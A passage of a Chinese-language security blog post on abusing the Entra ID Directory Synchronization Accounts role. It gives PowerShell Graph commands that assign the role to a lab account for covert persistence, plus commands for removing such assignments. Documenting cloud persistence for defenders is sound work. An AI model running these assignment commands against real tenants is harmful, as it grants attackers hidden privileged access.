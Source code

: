 ### Add Role Assignment

攻击者若想利用该角色进行隐蔽持久化，会使用 `New-MgRoleManagementDirectoryRoleAssignment` 命令来创建角色分配。如下所示，将为 taylor.smith@offseclabs.tech 账户授予该角色。

```powershell
Connect-MgGraph -Scopes "RoleManagement.ReadWrite.Directory"
$dirSyncRole = Get-MgDirectoryRole -Filter "RoleTemplateId eq 'd29b2b05-8046-44ba-8758-1e26182fcf32'"
$compromisedAccount = Get-MgUser -UserId taylor.smith@offseclabs.tech
New-MgRoleManagementDirectoryRoleAssignment -RoleDefinitionId $dirSyncRole.Id -PrincipalId $compromisedAccount.Id -DirectoryScopeId "/"
```

![image-20250927145101945](/assets/posts/2025-10-01-entra-id-tracing-the-abuse-history-of-connect-sync/image-20250927145101945.png)

另外，如果该内置角色在租户中从未被实例化（例如从未配置过 Entra Connect / Entra Cloud Sync），则需要先从角色模板创建角色实例，命令如下：

```powershell
New-MgDirectoryRole -RoleTemplateId "d29b2b05-8046-44ba-8758-1e26182fcf32"
```

### Remove Role Assignment

恶意的角色分配，或遗留于租户处于混合状态时的分配，可以使用 `Remove-MgDirectoryRoleMemberByRef` 命令进行移除。

```powershell
Connect-MgGraph -Scopes "RoleManagement.ReadWrite.Directory"
$dirSyncRole = Get-MgDirectoryRole -Filter "RoleTemplateId eq 'd29b2b05-8046-44ba-8758-1e26182fcf32'"
Remove-MgDirectoryRoleMemberByRef -DirectoryRoleId $dirSyncRole.Id -DirectoryObjectId '7f1d7108-2db0-4fa3-b124-241f3cf82895'
```

![image-20250927145516092](/assets/posts/2025-10-01-entra-id-tracing-the-abuse-history-of-connect-sync/image-20250927145516092.png)
